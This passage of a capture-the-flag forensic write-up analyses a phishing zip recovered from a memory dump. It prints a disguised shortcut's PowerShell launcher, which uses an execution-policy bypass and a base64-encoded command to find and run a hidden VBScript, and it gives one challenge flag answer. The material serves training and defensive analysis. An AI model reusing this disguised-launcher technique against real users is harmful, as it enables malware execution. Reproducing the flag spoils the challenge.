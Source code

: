I'm using [fil](https://github.com/file-go/fil) which is an equivalent for `file` from Linux, just one that works on Windows.

Either way, we've pulled two files out from the memory dump with Volatility, so let's take a peek inside the zip archive.

![present_for_santa.zip](/img/htb/sherlock/optinseltrace-3/present_for_santa.png)

Well, this looks suspiciously like a payload. I think this zip file is the one of the first things in the attack chain.

{% include htb_flag.html id="1" description="What is the name of the file that is likely copied from the shared folder (including the file extension)?" flag="present_for_santa.zip" %}

### 2. What is the file name used to trigger the attack (including the file extension)?

When we are looking at the zip contents, we see a `lnk` shortcut file, and a `VB Script` file. Let's check out the shortcut file with [LECmd](https://ericzimmerman.github.io/#!index.md):
{% highlight powershell %}
LECmd.exe -f .\click_for_present.lnk
LECmd version 1.5.0.0

... TRUNCATED ...

Name: Trick or treat
Relative Path: ..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
Arguments: -ep bypass -enc JABmAGkAbABlACAAPQAgAEcAZQB0AC0AQwBoAGkAbABkAEkAdABlAG0AIAAtAFAAYQB0AGgAIAAiAEMAOgBcAFUAcwBlAHIAcwBcACIAIAAtAEYAaQBsAHQAZQByACAAIgBwAHIAZQBzAGUAbgB0ACoALgB2AGIAcwAiACAALQBGAGkAbABlACAALQBSAGUAYwB1AHIAcwBlAHwAIABTAGUAbABlAGMAdAAtAE8AYgBqAGUAYwB0ACAALQBFAHgAcABhAG4AZABQAHIAbwBwAGUAcgB0AHkAIABGAHUAbABsAE4AYQBtAGUAOwBjAHMAYwByAGkAcAB0ACAAJABmAGkAbABlAA==
Icon Location: C:\Windows\System32\shell32.dll

... TRUNCATED ...
{% endhighlight %}
